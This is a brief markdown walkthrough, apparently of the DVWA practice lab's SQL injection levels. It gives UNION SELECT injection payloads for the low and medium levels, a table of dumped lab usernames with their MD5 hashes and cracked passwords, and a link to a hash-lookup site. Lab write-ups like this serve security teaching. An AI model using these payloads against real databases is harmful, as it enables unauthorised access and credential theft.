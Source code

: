 # SQL Injection

## low

```sql
' UNION SELECT user, password FROM users;#
```

[cmd5](https://www.cmd5.com)

user|password(hash)|password
-|-|-
admin|`5f4dcc3b5aa765d61d8327deb882cf99`|password
gordonb|`e99a18c428cb38d5f260853678922e03`|abc123
1337|`8d3533d75ae2c3966d7e0d4fcc69216b`|charley
pablo|`0d107d09f5bbe40cade3de5c71e9e9b7`|letmein
smithy|`5f4dcc3b5aa765d61d8327deb882cf99`|password

## medium

```sql
-1 UNION SELECT user, password FROM users;#
```

## high

same as low but a redirection
